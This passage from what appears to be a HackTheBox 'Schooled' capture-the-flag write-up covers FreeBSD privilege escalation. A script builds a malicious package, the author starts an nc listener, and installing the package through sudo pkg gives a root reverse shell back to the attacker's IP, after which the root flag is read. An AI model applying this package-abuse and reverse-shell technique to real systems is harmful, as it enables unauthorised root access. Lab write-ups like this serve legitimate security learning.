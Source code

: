To your ip.

Now, Run it:
```console
jamie@Schooled:/tmp $ bash exploit.sh
jamie@Schooled:/tmp $ ls
a			mypackage-1.0_5.txz	mysql.sock.lock		mysqlx.sock.lock	stage
exploit.sh		mysql.sock		mysqlx.sock		package			tmp.FrVMM6P2
jamie@Schooled:/tmp $ 

```

As we can see, it's created for us package ```mypackage-1.0_5.txz```.

Let's start ```nc``` listener to port 1234:
```console
┌─[evyatar@parrot]─[/hackthebox/Schooled]
└──╼ $ nc -lvp 1234
listening on [any] 1234 ...
```

And finally, let's install the package by running ```sudo pkg install --no-repo-update *.txz``` to get the root shell:
```console
jamie@Schooled:/tmp $ sudo pkg install --no-repo-update *.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
	mypackage: 1.0_5

Number of packages to be installed: 1

Proceed with this action? [y/N]: y
[1/1] Installing mypackage-1.0_5...
Registering root shell

```

```console
┌─[evyatar@parrot]─[/hackthebox/Schooled]
└──╼ $ nc -lvp 1234
listening on [any] 1234 ...
onnect to [10.10.14.14] from schooled.htb [10.10.10.234] 12395
# cd /root
# cat root.txt
2cfd44153109185fc2d3950eac803311
# 
```

And we get root flag ```2cfd44153109185fc2d3950eac803311```.
